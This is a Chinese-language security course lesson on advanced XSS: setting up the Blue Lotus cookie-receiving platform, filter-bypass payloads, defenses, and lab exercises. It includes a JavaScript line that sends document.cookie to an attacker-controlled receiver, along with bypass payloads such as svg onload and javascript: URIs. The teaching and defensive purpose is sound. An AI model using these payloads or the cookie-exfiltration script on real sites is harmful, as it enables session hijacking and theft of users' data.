









# 🛡️ 课程P8：第6天 - XSS漏洞进阶：平台搭建、绕过与防御

在本节课中，我们将深入学习跨站脚本攻击的进阶内容。课程将分为三个主要部分：首先，我们将学习如何搭建和使用XSS接收平台来获取受害者信息；其次，我们将探讨XSS攻击的常见绕过技巧以及相应的防御策略；最后，我们会通过实操练习来巩固所学知识。

## 🏗️ 第一部分：XSS接收平台的搭建与使用

上一节我们介绍了XSS的基本原理，本节中我们来看看如何利用接收平台来获取更具体的信息，例如用户的Cookie。

XSS接收平台是一个用于接收和展示由XSS攻击泄露出来的受害者信息的服务器。它可以帮助攻击者更方便地收集数据。



以下是两个常用的XSS接收平台：





1.  **XSSer**：一个功能丰富的XSS接收平台，但搭建步骤相对复杂。
2.  **蓝莲花 (Blue Lotus)**：一个轻量级的XSS接收平台，搭建过程较为简单。

### 蓝莲花平台搭建步骤

以下是蓝莲花平台在Windows环境下使用集成环境（如PHPStudy）的搭建流程：

1.  下载蓝莲花平台的压缩包。
2.  将解压后的文件夹放入Web服务器的根目录（例如 `www` 目录）。
3.  启动Web服务器（如Apache）。
4.  在浏览器中访问该文件夹的路径，例如 `http://localhost/blue-lotus/`。
5.  页面将提示安装，按照指引设置后台密码（默认为 `blue lotus`）并完成安装。
6.  安装成功后，使用设置的密码登录后台管理界面。

### 接收平台的使用方法




平台搭建完成后，核心功能是生成用于窃取信息的恶意脚本。

以下是使用蓝莲花平台生成恶意脚本的步骤：

1.  在平台后台的“我的JS”页面，创建一个新的模板，例如命名为 `test`。
2.  选择一个内置的JS模板（通常包含获取Cookie、URL等信息的代码）。
3.  点击“插入模板”，将代码显示在编辑框中。
4.  **关键步骤**：将代码中接收数据的服务器地址修改为你自己的平台地址。
    ```javascript
    // 示例：修改接收地址
    var url = ‘http://your-platform-address/receive.php?cookie=‘ + encodeURIComponent(document.cookie);
    ```
5.  点击“生成Payload”，平台会提供一个链接或一段JS代码。
6.  将这个Payload注入到存在XSS漏洞的网站中。当受害者访问该页面时，其Cookie等信息就会被发送到你的接收平台。
7.  在平台的“接收面板”中，即可查看所有捕获到的信息，包括来源IP、Cookie、User-Agent等。

通过使用接收平台，攻击的危害性从简单的弹窗演示升级为实际的信息窃取，这也凸显了防御XSS的重要性。

## 🔓 第二部分：XSS的绕过技巧与防御策略

在了解了如何利用XSS后，我们需要知道常见的过滤机制以及如何绕过它们，同时也要学习如何从开发角度进行有效防御。

### 常见的XSS绕过技巧

当网站对输入进行简单过滤时，攻击者可能会采用以下方法绕过：





1.  **当尖括号`<` `>`被过滤时**：
    *   **场景**：用户输入被输出到HTML标签的属性中，例如 `<input value=“USER_INPUT”>`。
    *   **绕过方法**：闭合前一个属性的引号，然后使用HTML事件属性。
    *   **示例Payload**：`“ onclick=“alert(1)`。这会形成 `<input value=“” onclick=“alert(1)“>`。

2.  **当`alert`等关键词被过滤时**：
    *   **绕过方法**：使用编码或JS的其他弹窗函数。
    *   **示例Payload（HTML编码）**：
        ```html
        <a href=“javascript:alert(1)”>click</a>
        <!-- 编码后 -->
        <a href=“javascript:alert(1)”>click</a>
        ```
    *   **示例Payload（使用其他函数）**：`prompt(1)` 或 `confirm(1)`。





3.  **当`on`事件处理器被过滤时**：
    *   **绕过方法**：利用其他可以执行JavaScript的属性或标签。
    *   **示例Payload（利用`<svg>`标签）**：
        ```html
        <svg onload=“alert(1)”></svg>
        ```
    *   **示例Payload（利用`<a>`标签的伪协议）**：`<a href=“javascript:alert(1)”>click</a>`。

### XSS的防御策略

有效的XSS防御需要从输入处理和数据输出两个层面进行。

1.  **输入验证与过滤**
    *   **白名单策略**：只允许特定的、安全的字符或格式通过。例如，姓名字段只允许字母和空格。这比黑名单（禁止已知危险字符）更有效。
    *   **示例代码（PHP过滤函数）**：
        ```php
        // 使用htmlspecialchars将特殊字符转换为HTML实体
        $user_input = htmlspecialchars($_GET[‘input’], ENT_QUOTES, ‘UTF-8‘);
        // ENT_QUOTES 参数会同时编码单引号和双引号，非常重要。
        ```

2.  **输出编码**
    *   根据数据输出的上下文，进行相应的编码。
    *   **在HTML标签中输出**：使用HTML实体编码。
    *   **在JavaScript代码中输出**：使用JavaScript编码。
    *   **在URL参数中输出**：使用URL编码。

3.  **使用安全响应头**
    *   **设置Cookie的HttpOnly属性**：防止JavaScript通过`document.cookie`访问Cookie，能有效防范Cookie劫持。
        ```php
        setcookie(“sessionid”, “value”, 0, “/”, “”, false, true); // 最后一个参数true表示HttpOnly
        ```
    *   **内容安全策略**：通过HTTP头`Content-Security-Policy`来定义页面允许加载哪些外部资源，可以大幅减少XSS风险。

4.  **避免有缺陷的第三方库**
    *   及时更新项目所使用的第三方库和框架，避免使用已知存在漏洞的旧版本。

## 🧪 第三部分：XSS漏洞实操练习

理论结合实践才能更好地掌握知识。本节我们将通过靶场进行实操。

推荐使用在线的XSS练习靶场（例如 `xss-quiz.int21h.jp` 或类似的DVWA等本地靶场）。从最简单的关卡开始，尝试使用本节课学到的Payload进行注入。

**实操思路**：
1.  找到存在用户输入回显的地方。
2.  查看页面源代码，分析用户输入被放置在哪个上下文（HTML标签内、属性内、JavaScript中等）。
3.  根据上下文，构造相应的Payload尝试弹窗。
4.  如果遇到过滤，尝试使用本节课介绍的绕过技巧。
5.  **进阶挑战**：尝试结合第一部分搭建的接收平台，构造能窃取Cookie的Payload。

**课后练习建议**：
1.  完成提供的XSS靶场进阶关卡。
2.  尝试在一个测试用的内容管理系统留言板中寻找并利用XSS漏洞，并使用接收平台获取“管理员”Cookie。

---


本节课中我们一起学习了XSS攻击的进阶利用方式，包括搭建信息接收平台、常见的过滤绕过手法以及从开发角度应如何多层面地防御XSS漏洞。XSS的攻防是一个持续的过程，关键在于理解其原理，并在开发中始终贯彻安全编码和纵深防御的思想。